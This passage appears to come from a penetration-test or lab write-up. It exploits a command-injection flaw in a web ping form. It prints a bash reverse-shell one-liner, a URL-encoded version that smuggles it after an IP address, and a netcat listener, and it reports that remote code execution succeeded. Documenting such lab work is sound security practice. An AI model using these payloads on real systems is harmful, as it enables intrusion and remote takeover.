 - **Original Payload (blocked):**  

```Bash
bash -i >& /dev/tcp/192.168.0.16/4444 0>&1
```

- **Functional Payload (URL-encoded):**    
```
127.0.0.1; bash+-c+%22bash+-i+%3E%26+/dev/tcp/192.168.0.19/4444+0%3E%261%22
```
This payload was then entered into the `/ping/` form field on the web page.


#### **Listener Preparation**
A Netcat listener was set up on the Kali machine to receive the incoming connection.
```bash
nc -nlvp 4444
```

**Result**
The reverse connection was successfully established. We obtained a remote shell from the victim machine, which was visually confirmed in the terminal by executing `whoami` and `hostname`. This confirmed a successful **Remote Code Execution (RCE)**.

![System acces granted](/assets/images/posts/atrium-report/reverseshell.png )
